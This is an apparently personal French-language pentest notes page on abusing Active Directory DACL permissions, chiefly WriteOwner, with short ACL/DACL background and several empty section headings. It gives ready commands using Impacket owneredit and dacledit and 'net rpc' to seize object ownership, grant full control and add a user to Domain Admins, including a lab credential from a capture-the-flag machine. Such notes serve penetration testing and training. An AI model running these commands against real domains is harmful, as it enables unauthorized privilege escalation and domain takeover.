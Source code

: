  exploitation des vulnérabilités du contrôle d'accès Windows/Active Directory pour l'élévation des privilèges, la persistance et les mouvements latéraux. Couvre les techniques offensives d'abus des ACL, l'analyse BloodHound et les méthodes de renforcement défensif pour les équipes de sécurité des entreprises.
 Une liste de contrôle d'accès (ACL) est une liste d' entrées de contrôle d'accès (ACE). Chaque ACE d'une ACL identifie un administrateur et spécifie les droits d'accès autorisés, refusés ou audités pour cet administrateur. Le descripteur de sécurité d'un objet sécurisable peut contenir deux types d'ACL : une DACL et une SACL .
 Une liste de contrôle d'accès discrétionnaire (DACL) identifie les personnes autorisées ou non à accéder à un objet sécurisable. Lorsqu'un processus tente d'accéder à un objet sécurisable, le système vérifie les ACE de la DACL de l'objet afin de déterminer s'il doit y accéder.
 `DAC` La méthode traditionnelle de mise en œuvre du contrôle d'accès contrôle l'accès en fonction de l'identité du demandeur et des règles d'accès qui précisent ce que les demandeurs sont autorisés à faire (ou non). Ce contrôle d'accès est discrétionnaire , car une entité peut disposer de droits d'accès lui permettant, de son propre chef, d'autoriser une autre entité à accéder à une ressource ; contrairement à MAC , où l'entité ayant accès à une ressource ne peut pas, de son propre chef, autoriser une autre entité à y accéder. Windows est un exemple de système d'exploitation DAC , qui utilise des listes de contrôle d'accès discrétionnaires ( DACL ).


#  Abus d'AD-DACL : WriteOwner

![writeOwner](/images/20250803200607.png)

une technique puissante permettant aux attaquants de modifier la propriété des objets de l'annuaire.
Plus précisément, en abusant de l'autorisation WriteOwner dans **les listes de contrôle d'accès discrétionnaires (DACL)** , les adversaires peuvent prendre le contrôle d'objets sensibles et élever leurs privilèges au sein du domaine.

1 . [[impacket]] **Outil Linux Impacket – Octroi de la propriété et du contrôle total**
À partir de systèmes de type UNIX, cela peut être fait avec  owneredit.py

```bash
impacket-owneredit  -action write -new-owner '<username>' -target-dn 'CN=Management,CN=Users,DC=domaine,DC=local' '<domain name>'/'<username>':'<password>'
```
Avec l'aide de owneredit, le DACL de cet objet est modifié avec succès,
Accordons à un utilisateur **un contrôle total** sur le groupe Administrateurs du domaine à l'aide de l'outil dacledit d'Impacket.

```bash
impacket-dacledit -action 'write' -rights 'WriteMembers' -principal '<username>' -target-dn 'CN=Admins du domaine,CN=Utilisateurs,DC=domaine,DC=local' '<domain name>' / '<username>' : 'password' -dc-ip <Domain_ip>
```

```bash
python3 /opt/impacket-with-dacledit/examples/dacledit.py -action 'write' -rights 'FullControl' -inheritance -principal 'judith.mader' -target 'management' "certified.htb"/"judith.mader":'judith09'
```
Avec l'aide de dacledit, le DACL de cet objet est modifié avec succès, **l'** utilisateur a désormais **un contrôle total** sur le **groupe**

### Ajout d'un membre au groupe
Le testeur peut abuser de cette autorisation en ajoutant l'utilisateur  au groupe Administrateur de domaine et en répertoriant les membres administrateurs de domaine pour garantir que les utilisateurs deviennent administrateurs de domaine.

```
net rpc group addmem "Domain Admins" <username> -U ignite.local/aaru%'Password@1' -S Domain_ip
```

## Abus d'AD-DACL : AddSelf

## Abus d'AD-DACL : WriteDacl

## Utilisation abusive d'AD-DACL : GenericWrite

## Abuser d'AD-DACL : ForceChangePassword

## Abuser d'AD-DACL : AllExtendedRights


https://www.hackingarticles.in/category/dacl-attacks/